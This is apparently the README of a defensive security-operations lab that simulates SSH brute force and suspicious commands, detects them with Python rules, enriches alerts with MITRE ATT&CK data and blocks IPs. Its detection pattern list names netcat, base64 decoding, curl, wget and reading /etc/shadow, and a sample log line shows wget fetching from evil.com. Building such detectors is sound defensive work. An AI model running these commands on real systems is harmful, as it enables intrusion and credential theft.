

# Mini-SOC — Automated Security Operations Center

[](https://python.org)
[](https://fastapi.tiangolo.com)
[](https://elastic.co)
[](https://docker.com)
[](https://pytest.org)
[](LICENSE)
[](https://github.com/Gerijacki/soc/actions/workflows/ci.yml)

Eight Docker services that simulate real attack patterns, detect them with custom Python rules enriched by MITRE ATT&CK RAG, trigger automated IP blocking, and visualize everything in Kibana and an interactive 3D graph — running in under 5 minutes with one command.

---

## Architecture

```
┌───────────────────────────────────────────────────────────────────────────────────┐
│  Attack Simulation           Detection & Enrichment              Response          │
│                                                                                    │
│  log-generator ──► Filebeat ──► Elasticsearch ──► detection-api ──► response-sys  │
│  (Faker·Python)    (8.13)       (soc-logs-*)      (3 rules·APSched)  (iptables)   │
│                                      │                  │                          │
│                                      │           POST /enrich (3s)                 │
│                                      │                  ▼                          │
│                                      │            rag-enricher                     │
│                                      │         (ChromaDB·MiniLM-L6)                │
│                                      │                                             │
│                                 soc-alerts ──────────────────► Kibana :5601       │
│                              soc-blocked-ips                   3D Graph /viz      │
└───────────────────────────────────────────────────────────────────────────────────┘
```



---

## Tech Stack

| Layer | Technology | Version | Purpose |
|---|---|---|---|
| Orchestration | Docker Compose | v2 | Service graph, networking, volumes |
| Data store | Elasticsearch | 8.13 | Log storage, alert indexing, full-text search |
| Visualization | Kibana | 8.13 | SOC dashboard, alerting rules |
| Log shipping | Filebeat | 8.13 | Tails files, normalizes fields, ships to ES |
| Detection engine | Python + FastAPI | 3.12 / 0.111 | Runs 3 detection rules on a 15s poll cycle |
| Scheduling | APScheduler | 3.10 | Background thread scheduler (non-blocking) |
| RAG enrichment | ChromaDB + sentence-transformers | 0.5.3 / 3.0.1 | MITRE ATT&CK semantic search |
| Embedding model | all-MiniLM-L6-v2 | — | 384-dim sentence embeddings (90 MB, CPU) |
| 3D visualization | Three.js + 3d-force-graph | — | Interactive technique/IP/alert relationship graph |
| HTTP client | httpx | 0.27 | Async-compatible service-to-service calls |
| Data validation | Pydantic | v2 | Alert models, API request/response shapes |
| Log simulation | Faker | 24.9 | Realistic IPs, usernames, hostnames |

---

## Features

- **Attack simulation** — SSH brute force bursts, anomalous off-hours logins, dangerous shell commands (`wget`, `nc`, `base64 -d`, etc.)
- **3 detection rules** — Python classes over Elasticsearch aggregations; 5-minute ES-backed alert deduplication
- **MITRE ATT&CK enrichment** — cosine similarity search against 20+ embedded techniques; enrichment added to every alert
- **3D attack graph** — Three.js force-directed graph at `/viz` showing IPs, alerts, and MITRE techniques as nodes
- **Automated response** — `simulate` mode (safe) or `enforce` mode (real iptables blocks)
- **Kibana SOC dashboard** — 6 panels auto-configured on first boot (timeline, top IPs, severity distribution, alert table)
- **Kibana Stack Alerting** — 3 alerting rules for brute force, suspicious commands, anomalous logins
- **Production-ready** — `docker-compose.prod.yml` with ES security, GHCR images, memory limits; Filebeat configs for real Linux/Windows logs
- **CI/CD** — GitHub Actions: parallel test matrix + Docker build check on every push; GHCR image publish on version tags

---

## Quick Start

```bash
git clone https://github.com/Gerijacki/soc.git && cd soc
cp .env.example .env
docker compose up --build
```

First run takes ~8 minutes (image pulls + rag-enricher model download). Subsequent runs with cached images take ~2 minutes.

**Watch the pipeline come alive:**
```bash
make status    # container health + ES document counts
make demo      # live alerts + blocked IPs + health summary
```

| URL | What you will see |
|---|---|
| http://localhost:5601 | Kibana → SOC Overview dashboard |
| http://localhost:8003/viz | 3D MITRE ATT&CK + IP + alert graph |
| http://localhost:8000/docs | Detection API (FastAPI auto-docs) |
| http://localhost:8001/docs | Response System (FastAPI auto-docs) |

### `make` command reference

| Command | What it does |
|---|---|
| `make up` | Build and start all services |
| `make down` | Stop all services and remove volumes |
| `make build` | Rebuild all images without cache |
| `make logs` | Tail all service logs |
| `make status` | Container health + ES document counts |
| `make trigger` | Manually fire one detection cycle |
| `make alerts` | Print recent alerts |
| `make blocked` | Print currently blocked IPs |
| `make demo` | Consolidated live status view |
| `make test` | Run all 52 tests |

---

## How Detection Works

The detection engine polls Elasticsearch every 15 seconds. Three rules run in parallel on each cycle.

### BruteForceRule

Detects SSH brute force attacks by aggregating failed login attempts per source IP.

```json
{
  "query": {
    "bool": {
      "must": [
        { "term": { "status": "failure" } },
        { "term": { "action": "ssh_login" } },
        { "range": { "@timestamp": { "gte": "now-60s" } } }
      ]
    }
  },
  "aggs": { "by_ip": { "terms": { "field": "source_ip", "size": 100 } } },
  "size": 0
}
```

**Why aggregation, not hits:** A `terms` aggregation returns one bucket per unique IP regardless of log volume — O(1) per IP vs O(n) if fetching raw documents. `"size": 0` means ES computes only the aggregation without returning documents.

**Severity scaling:**

| Failed attempts | Severity |
|---|---|
| 5 – 9 | medium |
| 10 – 19 | high |
| 20+ | critical |

### AnomalousLoginRule

Detects a successful login preceded by ≥ 3 failures from the same IP — classic credential stuffing or brute force success.

**Two-phase design:** Phase 1 finds candidate IPs (cheap `terms` aggregation). Phase 2 checks each candidate for a success event (targeted single-IP query). This is more efficient than a single compound query and each phase is independently unit-testable.

```
Phase 1: failures by IP in last 5m  →  candidates = { ip: fail_count }
Phase 2: for each candidate,
         query success from same IP in same window  →  ALERT if found
```

### SuspiciousCommandRule

Detects dangerous shell commands executed on monitored hosts.

```python
DANGEROUS_PATTERNS = [
    ("nc ",           AlertSeverity.critical),
    ("base64 -d",     AlertSeverity.critical),
    ("python3 -c",    AlertSeverity.critical),
    ("curl ",         AlertSeverity.high),
    ("wget ",         AlertSeverity.high),
    ("cat /etc/shadow", AlertSeverity.high),
    ("/tmp/.",        AlertSeverity.high),
    ("chmod 777",     AlertSeverity.medium),
    ("crontab",       AlertSeverity.medium),
]
```

Uses `match_phrase` (not `term`) on the `command` field — `term` requires exact keyword matches while `match_phrase` handles substring matching on analyzed text. `minimum_should_match: 1` across all patterns means a single hit triggers the rule. Per-cycle deduplication (`seen_ips` set) prevents multiple alerts for the same IP in a single 15-second window.

### MITRE ATT&CK Enrichment

Every alert is enriched with threat intelligence before being written to Elasticsearch:

```
1. Build query string: rule_name + severity + details fields (< 100 chars each)
2. Encode with all-MiniLM-L6-v2  →  384-dimensional embedding
3. ChromaDB cosine similarity search  →  top-3 MITRE techniques
4. confidence = max(0, 1.0 - cosine_distance)
5. Filter: confidence < 0.35 → dropped (below minimum relevance threshold)
6. Return: mitre_techniques, mitre_tactics, threat_summary, threat_confidence, mitre_urls
```

The enrichment result lands in `alert.details` and is queryable in Kibana. Enrichment is **best-effort**: a 3-second timeout means detection is never blocked by a slow or unavailable enricher.

### Alert Deduplication

All three rules call `es_client.alert_exists(ip, rule_name, window_minutes=5)` before creating an alert. This query checks the `soc-alerts` index, not an in-memory cache — deduplication survives container restarts and avoids alert storms during deployments.

---

## Architectural Decisions

Each decision follows: **problem → alternatives → choice + reason**.

### 1. `json.keys_under_root: true` in Filebeat

**Problem:** Filebeat's default JSON parsing nests all fields under `message` (`message.source_ip`, `message.status`). Elasticsearch `term` queries can only match on root-level keyword fields without painscript.

**Choice:** `keys_under_root: true` lifts all JSON fields to the document root, making `{"term": {"status": "failure"}}` work directly. This is the contract between Filebeat and the detection rules — breaking it silently breaks all alerts.

### 2. APScheduler over asyncio

**Problem:** `asyncio.create_task(while True: await sleep(15))` skips ticks if a detection cycle takes > 15s, and blocks the FastAPI event loop if any rule performs synchronous I/O.

**Choice:** APScheduler's `BackgroundScheduler` runs in a dedicated OS thread with a monotonic clock. The FastAPI event loop is never touched by detection. If a cycle runs long, the next tick still fires on schedule.

### 3. Elasticsearch-backed alert deduplication

**Problem:** In-memory `dict[ip, rule] → last_alert_time` resets on every container restart, causing alert storms after deployments or crashes.

**Choice:** `es_client.alert_exists()` queries `soc-alerts` for a recent matching alert before creating a new one. The ES index is the source of truth. The query adds ~5ms per alert, negligible at a 15-second cycle.

### 4. Best-effort RAG enrichment with 3-second timeout

**Problem:** ChromaDB model initialization takes 30–60s on first boot. If detection blocked on enrichment, no alerts would be written during startup.

**Choice:** `httpx.Client(timeout=3.0)` wrapped in `try/except`. If the enricher is unavailable or slow, the alert is written to ES without enrichment and the exception is logged at `DEBUG` level.

### 5. ChromaDB embedded vs. standalone vector database

**Problem:** Adding a separate vector DB service (Pinecone, Qdrant, Weaviate) adds a network hop, another service in the compose graph, and credential management — for a knowledge base of 20 MITRE techniques.

**Choice:** ChromaDB `PersistentClient` runs in-process inside the `rag-enricher` container with data persisted to a named Docker volume (`chromadb-data`). Query performance for 20 documents is identical to any external service.

### 6. CPU-only PyTorch

**Problem:** `pip install torch` downloads ~2 GB of CUDA-enabled packages. A container-based SOC deployment is unlikely to have a GPU.

**Choice:** `--index-url https://download.pytorch.org/whl/cpu` installs ~550 MB CPU builds. The `all-MiniLM-L6-v2` model performs inference on 20 documents in < 1ms on CPU. GPU would save microseconds while costing 3.5× the image size.

### 7. Webhook pattern for the response-system

**Problem:** Coupling detection and enforcement in a single service means a broken iptables command would crash or block the detection pipeline.

**Choice:** `POST /respond` is a clean contract. The detection-api fires and forgets (5-second timeout). The response-system can crash and restart without affecting detection. Future integrations — PagerDuty, AWS WAF, Slack, SOAR — only need to implement the same `/respond` endpoint contract.

### 8. Elasticsearch security disabled in dev

**Problem:** Enabling `xpack.security.enabled=true` in dev requires TLS certificates, password propagation to 6 services, and breaks the "one command to run" promise.

**Choice:** Security is off in `docker-compose.yml`. The `docker-compose.prod.yml` override re-enables it with per-service credentials. The Python ES clients read `ELASTIC_USERNAME`/`ELASTIC_PASSWORD` from env and pass `basic_auth` only when both are set — fully backward-compatible with dev.

---

## Real-World Log Ingestion

Switch from simulated logs to real system logs without modifying any detection rules.

| Source | Config file | Key requirement |
|---|---|---|
| Ubuntu/Debian/RHEL `/var/log/auth.log` | `filebeat/filebeat.prod.yml` | Filebeat on the monitored host |
| systemd journald | `filebeat/filebeat.prod.yml` (journald input) | `usermod -aG systemd-journal filebeat` |
| Windows Security Event Log | `filebeat/filebeat.windows.yml` | Audit Policy: logon events + process tracking |
| AWS CloudWatch Logs | Custom (see DEPLOYMENT.md) | IAM: `logs:FilterLogEvents` |
| GCP Cloud Logging | `type: gcp-pubsub` (see DEPLOYMENT.md) | Service account with Pub/Sub subscriber role |

**How raw syslog becomes detection-ready:**

| Raw syslog text | Filebeat processor | ES field | Rule |
|---|---|---|---|
| `Failed password for root from 1.2.3.4` | `parse_ssh` (JS) | `status: "failure"` | BruteForceRule, AnomalousLoginRule |
| `Accepted password for alice from 10.0.0.1` | `parse_ssh` (JS) | `status: "success"` | AnomalousLoginRule |
| `from 185.220.101.45 port 54321` | `parse_ssh` regex | `source_ip: "185.220.101.45"` | All three rules |
| `COMMAND=/usr/bin/wget http://evil.com` | `parse_sudo` (JS) | `command: "/usr/bin/wget ..."` | SuspiciousCommandRule |

> **Limitation:** `sudo` logs do not record the originating SSH source IP. The processor sets `source_ip` to the hostname as a fallback. Correlate via `username` + session timestamp in Kibana to trace the originating IP.

Full instructions and cloud log ingestion pointers in [DEPLOYMENT.md](DEPLOYMENT.md).

---

## Security Considerations

The development stack intentionally disables security features to minimize setup friction. Here is the full delta between dev and production:

| Setting | Dev | Production | Risk if not changed |
|---|---|---|---|
| `xpack.security.enabled` | `false` | `true` + auth | ES open to network without credentials |
| `RESPONSE_MODE` | `simulate` | `enforce` | No actual IP blocking occurs |
| `cap_add: NET_ADMIN` | Present | Present + consider seccomp | Container can modify host network rules |
| `number_of_replicas` | `0` | `1` | No redundancy — ES node failure loses data |
| `ES_JAVA_OPTS` heap | `512m` | `1g` | OOM risk under real log volume |
| Kibana `encryptionKey` | Not set | 32-char random string | Saved objects unencrypted at rest |
| TLS | Disabled | Terminate at load balancer | Credentials in plaintext on the network |

**Note on `NET_ADMIN`:** This capability allows the response-system container to modify iptables on the Docker host. Only deploy with `RESPONSE_MODE=enforce` on systems where you explicitly intend IP-level blocking.

---

## Usage

### Detection API (`:8000`)

```bash
# Health check
curl http://localhost:8000/health

# List loaded detection rules
curl http://localhost:8000/rules | jq '.[].name'

# Manually trigger a detection cycle (don't wait for the 15s scheduler)
curl -X POST http://localhost:8000/trigger

# Fetch recent alerts
curl "http://localhost:8000/alerts?size=10" | jq '.[].rule_name'
```

### Response System (`:8001`)

```bash
# Health check (shows mode and active in-memory blocks)
curl http://localhost:8001/health

# List blocked IPs
curl "http://localhost:8001/blocked?size=20" | jq '.[].source_ip'
```

### RAG Enricher (`:8003`)

```bash
# Health check (shows ChromaDB collection count)
curl http://localhost:8003/health

# Enrich an alert manually
curl -X POST http://localhost:8003/enrich \
  -H "Content-Type: application/json" \
  -d '{"rule_name":"BruteForceRule","source_ip":"1.2.3.4","severity":"high","details":{}}'

# List all indexed MITRE techniques
curl http://localhost:8003/collection | jq '.[].id'

# Open 3D attack intelligence graph
open http://localhost:8003/viz    # macOS
xdg-open http://localhost:8003/viz  # Linux
```

### Elasticsearch direct queries

```bash
# Recent alerts
curl "http://localhost:9200/soc-alerts/_search?size=5&sort=@timestamp:desc&pretty"

# Blocked IPs
curl "http://localhost:9200/soc-blocked-ips/_search?size=10&pretty"

# Log volume by scenario
curl "http://localhost:9200/soc-logs-*/_search?pretty" \
  -H "Content-Type: application/json" \
  -d '{"aggs":{"by_scenario":{"terms":{"field":"scenario"}}},"size":0}'
```

---

## Testing

52 unit tests across 3 services. All tests mock `elasticsearch.Elasticsearch` via `pytest-mock` — no running Docker stack needed. CI runs the full suite in ~30 seconds.

```bash
make test                    # all 52 tests
make test-detection          # detection-api (21 tests)
make test-generator          # log-generator (20 tests)
make test-response           # response-system (11 tests)

# Single test file
cd detection-api && pytest tests/test_brute_force.py -v

# With coverage
cd detection-api && pytest tests/ --cov=. --cov-report=term-missing
```

**What each suite covers:**

| Suite | Tests | Focus |
|---|---|---|
| `test_brute_force.py` | 8 | Threshold crossing, severity scaling, multi-IP, deduplication |
| `test_anomalous_login.py` | 6 | Two-phase detection, deduplication, edge cases |
| `test_suspicious_cmd.py` | 7 | Pattern matching, severity by pattern, per-IP dedup |
| `test_scenarios.py` | 20 | Burst sizes, timestamp format, IP/hostname consistency |
| `test_responder.py` | 11 | Simulate mode, dedup, expiry, ES write, health endpoint |

**Code style:**
```bash
pip install ruff==0.4.4
ruff check . --line-length 120
```

---

## Contributing

### Development workflow

```bash
git clone https://github.com/Gerijacki/soc.git && cd soc
cp .env.example .env
make test        # verify all 52 tests pass before making changes
make up          # full stack for integration testing
```

### Adding a new detection rule

1. Create `detection-api/rules/my_rule.py` inheriting `DetectionRule`:
   ```python
   from rules.base import DetectionRule
   from models import Alert

   class MyRule(DetectionRule):
       name = "MyRule"
       description = "What this rule detects"

       def detect(self, client) -> list[Alert]:
           ...
   ```
2. Add tests in `detection-api/tests/test_my_rule.py` — minimum 5 tests covering threshold, dedup, and edge cases
3. Register in `detection-api/main.py`: add `MyRule()` to the `RULES` list
4. Open a PR — CI runs all tests and lint automatically

### Pull request checklist

- [ ] `make test` passes locally
- [ ] `ruff check . --line-length 120` reports no errors
- [ ] New rules include ES-backed deduplication via `es_client.alert_exists()`

---

## Project Structure

```
soc/
├── detection-api/           # FastAPI detection engine + 3 rules
│   ├── rules/               # BruteForceRule, AnomalousLoginRule, SuspiciousCommandRule
│   ├── tests/               # 21 unit tests (pytest-mock)
│   ├── main.py              # FastAPI app, APScheduler, lifespan
│   ├── es_client.py         # ES client, index bootstrap, alert dedup query
│   └── models.py            # Alert, AlertSeverity, HealthResponse (Pydantic)
│
├── log-generator/           # Attack scenario simulator
│   ├── scenarios/           # brute_force.py, suspicious_login.py, command_exec.py
│   ├── tests/               # 20 unit tests
│   └── generator.py         # Main loop, normal/attack event generation
│
├── response-system/         # Automated incident response
│   ├── tests/               # 11 unit tests
│   └── responder.py         # FastAPI app, iptables/simulate, ES audit writes
│
├── rag-enricher/            # MITRE ATT&CK RAG enrichment + 3D visualization
│   ├── main.py              # FastAPI app, ChromaDB query, /viz endpoint
│   ├── seeder.py            # 20+ MITRE technique definitions + ChromaDB seeding
│   └── viz.html             # Three.js 3D force-graph
│
├── filebeat/
│   ├── filebeat.yml         # Dev config (reads simulated JSON logs)
│   ├── filebeat.prod.yml    # Production config (Linux auth.log, journald)
│   └── filebeat.windows.yml # Windows Event Log (4624, 4625, 4688)
│
├── kibana/setup/            # One-time init: data views, dashboard, alerting rules
│
├── docs/screenshots/        # Drop Kibana / 3D graph screenshots here
│
├── .github/workflows/
│   ├── ci.yml               # Tests + lint + Docker build check on every push
│   └── release.yml          # GHCR image publish + GitHub release on v* tags
│
├── docker-compose.yml       # Dev stack (security off, log-generator active)
├── docker-compose.prod.yml  # Production override (ES security, GHCR images, limits)
├── .env.example             # Dev environment template
├── .env.prod.example        # Production environment template
├── Makefile                 # Developer CLI (make up/down/test/demo/...)
└── DEPLOYMENT.md            # Production deployment + real log ingestion guide
```

---

## Elasticsearch Index Schema

### `soc-logs-{yyyy.MM.dd}` — raw log events

| Field | Type | Values | Set by |
|---|---|---|---|
| `@timestamp` | date | ISO-8601 UTC | Filebeat |
| `source_ip` | keyword | IPv4/IPv6 | log-generator / Filebeat processor |
| `username` | keyword | login user | log-generator / Filebeat processor |
| `hostname` | keyword | system hostname | log-generator / Filebeat processor |
| `action` | keyword | `ssh_login`, `command_execution`, `ssh_event` | log-generator / Filebeat processor |
| `status` | keyword | `failure`, `success`, `executed`, `info` | log-generator / Filebeat processor |
| `log_type` | keyword | `auth`, `command` | log-generator / Filebeat processor |
| `command` | keyword | full command string | log-generator / Filebeat processor |
| `port` | integer | TCP port | log-generator / Filebeat processor |
| `pid` | integer | process ID | log-generator / Filebeat processor |
| `scenario` | keyword | `brute_force`, `anomalous_login`, `command_exec`, `normal` | log-generator only |
| `is_off_hours` | boolean | true if 2–4 AM | log-generator only |
| `message` | text | human-readable log line | log-generator / Filebeat |

### `soc-alerts` — triggered security alerts

| Field | Type | Description |
|---|---|---|
| `@timestamp` | date | When the alert was created |
| `rule_name` | keyword | `BruteForceRule`, `AnomalousLoginRule`, `SuspiciousCommandRule` |
| `source_ip` | keyword | Attacker IP address |
| `severity` | keyword | `low`, `medium`, `high`, `critical` |
| `event_count` | integer | Number of events that triggered the alert |
| `details` | object | Rule-specific context + MITRE enrichment fields |
| `details.mitre_techniques` | keyword[] | e.g., `["T1110", "T1078"]` |
| `details.mitre_tactics` | keyword[] | e.g., `["Credential Access"]` |
| `details.threat_confidence` | float | 0.0 – 1.0 cosine similarity score |
| `details.threat_summary` | text | Human-readable MITRE technique description |
| `details.mitre_urls` | keyword[] | Direct links to attack.mitre.org |

### `soc-blocked-ips` — IP block audit trail

| Field | Type | Description |
|---|---|---|
| `@timestamp` | date | When the block was issued |
| `source_ip` | keyword | Blocked IP address |
| `rule_name` | keyword | Rule that triggered the block |
| `severity` | keyword | Alert severity at time of block |
| `action_taken` | text | `[SIMULATED]` or `[ENFORCED]` + iptables command |
| `block_duration_seconds` | integer | Configured block duration |
| `expires_at` | date | When the in-memory block expires |
| `details` | object | Copy of the triggering alert's details |

---

## License

MIT — see [LICENSE](LICENSE).
